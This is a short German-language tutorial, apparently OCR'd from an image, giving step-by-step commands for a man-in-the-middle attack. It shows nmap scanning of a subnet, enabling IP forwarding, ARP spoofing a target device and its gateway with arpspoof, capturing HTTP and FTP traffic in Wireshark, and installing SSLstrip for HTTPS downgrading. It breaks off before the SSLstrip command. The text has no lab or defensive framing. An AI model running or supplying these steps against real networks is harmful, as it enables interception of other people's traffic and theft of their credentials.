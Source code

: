 1. Stellen Sie sicher, dass Kali Linux auf Ihrem System installiert ist.
    
2. Identifizieren Sie das Zielnetzwerk und die Zielgeräte.
    
3. Verwenden Sie ein Gerät mit einer WLAN-Schnittstelle, die den Monitor-Modus unterstützt.
    

## Netzwerk-Scanning

Scannen Sie zunächst das Netzwerk, um Zielgeräte zu identifizieren:

bash

`nmap -sn 192.168.1.0/24`

Notieren Sie sich die IP-Adressen des Zielgeräts und des Gateways.

## ARP-Spoofing

1. Aktivieren Sie IP-Forwarding:
    

bash

`echo 1 > /proc/sys/net/ipv4/ip_forward`

1. Starten Sie ARP-Spoofing mit arpspoof:
    

bash

`arpspoof -i eth0 -t 192.168.1.10 192.168.1.1 arpspoof -i eth0 -t 192.168.1.1 192.168.1.10`

Ersetzen Sie "eth0" durch Ihre Netzwerkschnittstelle, "192.168.1.10" durch die IP des Zielgeräts und "192.168.1.1" durch die IP des Gateways[1](https://journals.indexcopernicus.com/api/file/viewByFileId/641901)[2](https://www.hacking-tutorial.com/hacking-tutorial/kali-linux-man-middle-attack/).

## Datenverkehr abfangen

Verwenden Sie Wireshark, um den Datenverkehr zu analysieren:

bash

`wireshark -i eth0`

Filtern Sie nach relevanten Protokollen wie HTTP oder FTP[6](https://data-flair.training/blogs/network-analysis-with-wireshark-on-kali-linux/).

## HTTPS-Downgrade mit SSLstrip

1. Installieren Sie SSLstrip:
    

bash

`sudo apt-get install sslstrip`

1. Starten Sie SSLstrip:
    

bash
